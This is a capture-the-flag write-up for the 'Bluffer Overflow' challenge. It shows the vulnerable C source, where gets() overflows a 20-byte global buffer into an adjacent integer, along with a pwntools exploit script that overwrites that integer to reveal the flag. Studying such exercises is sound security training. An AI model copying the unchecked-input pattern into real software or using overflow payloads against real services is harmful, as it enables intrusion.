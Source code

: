 ## Bluffer Overflow 🩸

```
Author: rennfurukawa

Maybe it's your first time pwning? Can you overwrite the variable?

nc ctf.tcp1p.com 17027
```
**Attachment**: [dist.zip](release/dist.zip)

We were given a zip file that contain a C source code.

<details open><summary>chall.c</summary>
    
```c=
#include <stdio.h>
#include <stdlib.h>

char buff[20];
int buff2;

void setup(){
	setvbuf(stdin, buff, _IONBF, 0);
	setvbuf(stdout, buff, _IONBF, 0);
	setvbuf(stderr, buff, _IONBF, 0);
}

void flag_handler(){
	FILE *f = fopen("flag.txt","r");
  	if (f == NULL) {
    	printf("Cannot find flag.txt!");
    	exit(0);
  }
}

void buffer(){
	buff2 = 0;
	printf("Can you get the exact value to print the flag?\n");
	printf("Input: ");
	fflush(stdout);
	gets(buff); 
	if (buff2 > 5134160) {
		printf("Too high!\n\n");
	} else if (buff2 == 5134160){
		printf("Congrats, You got the right value!\n");
	 	system("cat flag.txt");
	} else {
		printf("Sad, too low! :(, maybe you can add *more* value 0_0\n\n");
	}
	printf("\nOutput : %s, Value : %d \n", buff, buff2);
}

int main(){
	flag_handler();
	setup();
	buffer();
}
```
    
</details>
    
Based by the provided code, the program will ask the user to input a data using the `gets()` function and it will be saved into the `buff` global variable. Since the `gets()` doesn't do a boundaries check, so it will cause a Buffer Overflow vulnerability. Let's take a closer look to the `buffer()` function, there's a check if a value of buff2 variable is equals to 5134160, it will call give us the flag. 
    
We can exploit this Buffer Overflow vulnerability to overwrite the global variable `buff2` with 5134160 by filling the global variable `buff` first with 20 bytes of dummy data (the variable `buff` can only hold up to 20 bytes of data `char buf[20]`).
    
Here's the exploit to solve this challenge.
    
<details close> <summary>exploit.py</summary>

```python=
#!/usr/bin/env python3
# -*- coding: utf-8 -*-
from pwn import *
from os import path
import sys

# ==========================[ Information
DIR = path.dirname(path.abspath(__file__))
EXECUTABLE = "/chall"
TARGET = DIR + EXECUTABLE 
HOST, PORT = "ctf.tcp1p.com", 17027
REMOTE, LOCAL = False, False

# ==========================[ Tools
elf = ELF(TARGET)
elfROP = ROP(elf)

# ==========================[ Configuration
context.update(
    arch=["i386", "amd64", "aarch64"][1],
    endian="little",
    os="linux",
    log_level = ['debug', 'info', 'warn'][2],
    terminal = ['tmux', 'split-window', '-h'],
)

# ==========================[ Exploit

def exploit(io, libc=null):
    if LOCAL==True:
        #raw_input("Fire GDB!")
        if len(sys.argv) > 1 and sys.argv[1] == "d":
            choosen_gdb = [
                "source /home/mydata/tools/gdb/gdb-pwndbg/gdbinit.py",     # 0 - pwndbg
                "source /home/mydata/tools/gdb/gdb-peda/peda.py",          # 1 - peda
                "source /home/mydata/tools/gdb/gdb-gef/.gdbinit-gef.py"    # 2 - gef
                ][0]
            cmd = choosen_gdb + """
            b *buffer+94
            """
            gdb.attach(io, gdbscript=cmd)
    
    p = b""
    p += b"A"*20 # char buff[20]
    p += p64(5134160) # new value for buff2

    io.sendline(p)
    io.interactive()

if __name__ == "__main__":
    io, libc = null, null

    if args.REMOTE:
        REMOTE = True
        io = remote(HOST, PORT)
        # libc = ELF("___")
        
    else:
        LOCAL = True
        io = process(
            [TARGET, ],
            env={
            #     "LD_PRELOAD":DIR+"/___",
            #     "LD_LIBRARY_PATH":DIR+"/___",
            },
        )
        # libc = ELF("___")
    exploit(io, libc)
``` 
</details>

![](https://hackmd.io/_uploads/ByrlzR3ZT.png)

    
**Flag:** TCP1P{ez_buff3r_0verflow_l0c4l_v4r1abl3_38763f0c86da16fe14e062cd054d71ca}